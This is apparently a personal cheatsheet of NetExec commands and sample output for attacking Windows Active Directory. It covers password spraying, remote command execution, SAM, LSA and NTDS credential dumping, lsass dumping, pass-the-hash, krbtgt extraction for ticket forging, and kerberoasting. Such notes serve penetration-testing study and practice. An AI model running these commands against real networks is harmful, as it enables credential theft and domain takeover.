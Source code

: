 ```yaml
---
title: NetExec-cheatsheet-AD
date: 2024-01-22
categories: [tool, active_directory]
tags: [windows, privesc, enumeration]    # TAG names should always be lowercase
image: https://cloud.githubusercontent.com/assets/5151193/17577511/d312ceb4-5f3b-11e6-8de5-8822246289fd.jpg
---
```

## My notes for the <a href="https://github.com/Pennyw0rth/NetExec">Netexec</a>Netexec tool





Enumeration:

```bash
nxc smb -h
```

```bash
nxc smb <URL>
SMB <URL> 445  DC-DC [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc.local) (signing: True) (SMBv1:False)
```

Name: PC’s name

domain: domain’s name

SMBv1:True (Possible Eternal Blue exploit)

Check for acounts:

```bash
nxc smb <URL> -u 'guest' -p ''

SMB   <URL>   445   DC-DC   [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc.local) (signing: True) (SMBv1:False)
SMB   <URL>   445   DC-DC   [-] dc.local\guest: STATUS_ACCOUNT_DISABLED
```

With a file:

```bash
nxc smb <URL> -u 'usern.name' -p 'password_file.txt'
```

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/7fecbb84-9598-4ec2-9fa9-5ad99163bcf9/a4338bcb-5d81-4134-8163-22e35572fbf0/Untitled.png)

```bash
SMB   <URL>   445   DC-DC   [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc. local) (signing:True) (SMBv1:False)
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:password STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:Password123 STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:Summer2023! STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [+] dc. local\name.surname:SeekTheCheapestRoute!
```

Pass the password:

```bash
nxc smb <URL> -u 'user_file.txt' -p '<found_password>'
```

With credentials: (enumerate users and groups)

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' --rid-brute
```

With`--log` you can log a specific command to a specific file

config file:

```bash
/home/kali/.nxc/nxc.conf
[nxc]
workspace = default
last_used_db = smb
pwn3d_label = Pwn3d!
audit_mode =
reveal_chars_of_pwd = 0
log_mode = False <--- if True generates log in the "/home/kali/.nxc/logs" folder
ignore_opsec = True
host_info_colors = ["green", "red", "yellow", "cyan"]

[BloodHound]
bh_enabled = False
bh_uri = 127.0.0.1
bh_port = 7687
bh_user = neo4j
bh_pass = neo4j

[Empire]
api_host = 127.0.0.1
api_port = 1337
username = empireadmin
password = password123

[Metasploit]
rpc_host = 127.0.0.1
rpc_port = 55552
password = abc123
```

Kerberos Auth:

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' -k
```

If you have a tgt ticket:

```bash
export KRB5CCNAME=ticket.ccache
nxc smb <URL> -u 'user.name' -p 'found_password' --use-kcache
```

Execute commands:

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' -x 'command' <--- cmd
nxc smb <URL> -u 'user.name' -p 'found_password' -X 'command' <--- Powershell
nxc smb <URL> -u 'user.name' -p 'found_password' -x 'powershell.exe -c "GCI C:\\"' <--- Powershell without obfuscation
```

If you got admin the first thing to do is dump the sam/lsa:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --sam 
```

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --lsa
```

Auth with Hash:

```bash
nxc smb <URL> -u 'INSMOUYH-DC$' -H <hash>
```

PC name needed.

ntds dump:

```bash
nxc smb <URL> -u 'INSMOUYH-DC$' -H <hash> --ntds
```

ntds dump of a single user: (better krbtgt)

```bash
nxc smb <URL> -u 'INSMOUYH-DC$' -H <hash> --ntds --user krbtgt
```

With the hash of the krbtgt we can forge our own tickets.

Modules:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' -M nanodump
```

Get lsass dump and parse the result with pypykatz

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' -M lsassy
```

Dumps lsass and parse the result remotely with lsassy

Put files in the smb share:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --put-file file.txt '\\file.txt'
```

### LDAP

```bash
nxc ldap -L <--list modules
```

Kerberoast:

```bash
nxc ldap <URL> -u 'Administrator' -p 'admin_pass' --kerberoasting outfile.txt
```
